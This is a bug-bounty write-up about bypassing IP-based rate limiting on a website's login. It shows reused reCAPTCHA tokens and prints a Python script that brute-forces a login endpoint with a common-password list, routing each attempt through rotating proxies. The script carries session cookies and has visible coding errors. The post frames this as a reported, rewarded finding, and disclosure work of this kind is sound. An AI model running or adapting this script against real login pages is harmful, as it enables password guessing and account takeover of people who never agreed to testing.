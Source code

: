 ```yaml
---
date: 2020-07-26 22:55:45
layout: post
title: Ip Rotation Bypass
description: Ip rotation to bypass ip based check
image: https://i.ibb.co/xXt8WMK/rotate.jpg
optimized_image: https://i.ibb.co/xXt8WMK/rotate.jpg
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## Bypassing Ip based protection for login using simple python script

Hey guys I'm back with my another finding and also another one which does not implement google recaptcha properly and made this attack possible ...will see how.
We will say this traget as "private.com" through out the article. So let's jump into it !

![Alt Text](https://media.giphy.com/media/CjmvTCZf2U3p09Cn0h/giphy.gif)

Like always whenever I hunt on any program I start with the main web app and check out their stuffs there...well why not ?
So I jumped to login created an accout and started to  check if web app implements rate limit or not ...
Well web app says that it implements google recaptcha so I thought ..well I try to remove header from the request and removed that recaptcha part from json request..like

- Original json request:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"}
```

- To:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?",  "recaptchaVersion": "v3"}
```

But no luck 

- Response:
```
{"error":"recaptchaToken not found"}
```
Next thing I checked if web app reuses this recptcha?
And well yes ...now response was like 

- Response:
```
{"error":"Incorrect email/Password"}
```
![Alt Text](https://media.giphy.com/media/dLolp8dtrYCJi/giphy.gif)

Now the next thing remains is to check it we can bruteforce this ...Well after 3 ~ 4 tried including the above requests so total like ~ 7 requests I got response like 

```
{"error":"Something went wrong, Ip 47.1.X.x" is added to blacklist try again later"}
```
From this point I thought well it blocked my Ip what about other ?
So I tried to login with my phone data with random password and correct email and got response as

```
{"error":"Incorrect email/Password"}
```
So now I know what to do ;)

![Alt Text](https://media.giphy.com/media/BlWF2vzpIPB0A/giphy.gif)

- Now I had two options either use:
  - IpRotate which is cool extension which uses aws api gatways and proxy your traffic with unique ips 
  - Create a script (as most time internal teams would not like to install a extension for a specific bug)

So I made the following simple python3 script which proxies your every login attempt through different ips and got the pass after like 5 mins

```python

from proxy_requests.proxy_requests import ProxyRequests
import Queue
import sys

q = Queue.Queue()

passwordList = open('1k_most_common.txt','r').read().splitlines()
total = len(passwordList)


def attack(url):
   try :
       Pass = q.get()
       r = ProxyRequests(url)
       r.set_headers({"Connection": "close", 
                      "Accept": "application/json, text/plain, */*", 
                      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36", 
                      "Content-Type": "application/json;charset=UTF-8", 
                      "Origin": "https://private.com", 
                      "Sec-Fetch-Site": "same-site", 
                      "Sec-Fetch-Mode": "cors", 
                      "Sec-Fetch-Dest": "empty", 
                      "Referer": "https://private.com/login", 
                      " Accept-Encoding": "gzip, deflate", 
                      "Accept-Language": "en-US,en;q=0.9",
                      "Cookie " : "__cfduid": "dc7914404b4b8af17d2b615325ec94cbf1596976181", "connect.sid": "s%3Aqcg54CJ2isBko1u1YNhaPG0bhX9R9Wmi.8XeOBqwBtDjReQFjOwpK8s6AnRPVO4BJfghJClZEcio"}

       r.post_with_headers({"email": "anyuser@gmail.com", "password": "" + str(Pass) + "", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"})

       if r.get_status_code() == 401 or r.get_status_code() == 429:
                     continue
       if r.get_status_code() == 302:
                     print ("[!] Password Found !: " + str(Pass))
    except Queue.Empty :
	sys.exit()
   
def push_pass():

   for password in passwordList :
        q.put(password.strip())

def main():
   push_pass()
   url = "https://api.private.com/api/v2/login"
   for i in range(total):
       attack(url)
        

if '__name__' == '__main__': 
    main()
```
I didn't made it fast which I could or you could make a simple bash script with calls curl and a proxy list via which curl proxies your traffic...well I just had to show that even after like 12 - 20 requests web app is still allowing me for another login attempt


- Reported the bug 
Accepted and bounty awarded $_$

- Takeaway
  - Trying new thing helps

Hope you guys learned seomthing new from this post :)
See you next time !

![Alt Text](https://media.giphy.com/media/KEkCtOMhkdze5azTMa/giphy.gif)
